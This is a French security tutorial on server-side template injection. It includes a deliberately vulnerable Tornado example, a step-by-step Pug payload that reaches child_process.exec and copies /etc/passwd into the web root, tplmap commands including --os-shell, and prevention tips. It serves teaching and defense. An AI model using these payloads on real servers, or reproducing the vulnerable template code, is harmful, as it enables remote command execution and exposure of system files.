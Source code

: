 # Failles web - injection de template

## Description
Les templates permettent d'alléger l'écriture du code html résultant. Le développeur va pouvoir instancier dynamiquement un template avec seulement des données pour générer le contenu final html.

Voici quelques moteurs de template:
* Java : Free marker, Velocity
* PHP : smarty, twig
* python : Jinja, tornado 
* ruby : Liquid
* Node : Pug

L'injection consiste à exploiter une entrée utilisateur non sécurisée, dans le but d'injecter des directives de template qui conduiront par exemple à l'exécution de code arbitraire.

## Détection
[TplMap](https://github.com/epinna/tplmap) est un outil python permettant la détection de la faille (SSTI -> Server Side Template Injection). Il est en plus de la détection, de pouvoir exploiter les vulnérabilités du site.

    $ ./tplmap.py -u http://domain.com/?data=injection
L'outil va détecter le point d'entrée, le système d'exploitation, le moteur et les possibilités d'exploitation (shell, accès fichiers, injection de code ...)

## Intention
L'injection de template permet :
* l'execution de code arbitraire sur le serveur
* la mise en place d'une backdoor
* l'accès au système de fichiers

## Exploitation

### Exploitation de tornado en python
L'exemple est disponible [ici](http://sysblog.informatique.univ-paris-diderot.fr/2020/03/19/la-vulnerabilite-des-templates-linjection-de-template/). Soit `test.py` :

    import tornado.template
    import tornado.ioloop
    import tornado.web

    # exemple d'injection de template en utilisant le moteur de template "Tornado"
    # la variable donnee est le code injectee par l'utilisateur 
    TEMPLATE = '''
    <html>
    <head><title> Texte injecte  est : {{ donnee }} </title></head> 
    <body> Texte de injecte est :  TEXT </body>
    </html>
    '''
    class Main(tornado.web.RequestHandler):
    
        def get(self):
            donnee = self.get_argument('donnee', '')
            template_data = TEMPLATE.replace("TEXT",donnee)
            t = tornado.template.Template(template_data)
            self.write(t.generate(donnee=donnee))
    
    application = tornado.web.Application([
        (r"/", Main),
    ], debug=True, static_path=None, template_path=None)
    
    if __name__ == '__main__':
        application.listen(8000)
        tornado.ioloop.IOLoop.instance().start()

Puis:

    $ python -m pip install tornado
    $ python test.py

Dans le navigateur:

    http://localhost:8000/?donnee=Injected Data

La page retourné contiendra le texte injecté "Injected Data"

### Exploitation de Pug
Pug, comme python, va utliser les espaces comme caractères sensibles.
Un saut de ligne (CRLF : `%0a`) permet de signifier que nous injectons une nouvelle entrée pour le moteur.

Nous allons chercher à acceder à l'objet global self, pour ensuite chercher à quelle fonctions nous avons accès. Un accès à `require` permttrait d'injecter des commandes via le processus enfant `(child_process).exec()`.

Toutes les manipulations doivent se faire avec l'URL encodée, pour cela Burp va être d'un grand secours.

Pour voir si nous avons accès à global, injectons `%0a=global` et observons la réponse sous Burp. Si on voit `[object global]` c'est ok.

Pour trouver les objets de global, nous allons injecter (encodée en URL): 

    each val,index in global
    p=index
Nous espérons trouver l'objet global.process. Si oui nous pouvons l'explorer en injectant (encodé en URL):

    each val,index in global
    p=index
Ainsi de suite, qui va nous amner à `mainModule` puis enfin `require` (`global.process.mainModule.require`). Nous allons pouvoir injecter du code avec le child_process.

Nous allons utiliser la fonction `exec` du child_process pour exécuter des commandes systèmes. Pour cela, nous définissions une variable correspondant à `require` et le `-` qui permet une sortie non stockée dans le buffer. Nous injectons donc (encodé en URL):

    - var x = global.process.mainModule.require
    - x('child_process').exec('cat /etc/passwd >> /opt/web/mywebapp/public/accounts.txt')
Le résultat est l'apparition du fichier accounts.txt à la racine du site web avec la liste des comptes du système.

Tout se travail peut être automatisé avec un outil comme TplMap

### `TplMap`
[TplMap](https://github.com/epinna/tplmap) permet de renseigner l'attaquant sur les exploitations possible d'un serveur vulnérable. Il permet, comme SQLmap de faciliter grandement le travail.

    $ ./tplmap.py -u http://domain.com/?user=john
Donne le point d'entrée, le système d'exploitation, le moteur et les possibilités d'exploitation.

L'option `--os-shell` permet de lancer un pseudo shell

    $ ./tplmap.py --os-shell -u http://domain.com/?user=john

## Prévention
Pour se prémunir il faut sécurisé l'entrée utilisateur tout comme nous le ferions avec la fonction `eval()` de Node. Si possible chargé des fichiers de templates statiques.

Il faut également sécurisé l'entrée pour ne pas que l'utilisateur contrôle l'accès à un fichier, comme nous le ferions avec les fonctions `include()` et `require()` de php dans le cadre de LFI.

Si possible ne pas passer les données dynamiques directement dans le fichier de template. Utiliser plutôt les fonctionnalités embarqués par le moteur de template pour convertir les expressions en leur résultats à la place.

## Liens
* http://sysblog.informatique.univ-paris-diderot.fr/2020/03/19/la-vulnerabilite-des-templates-linjection-de-template/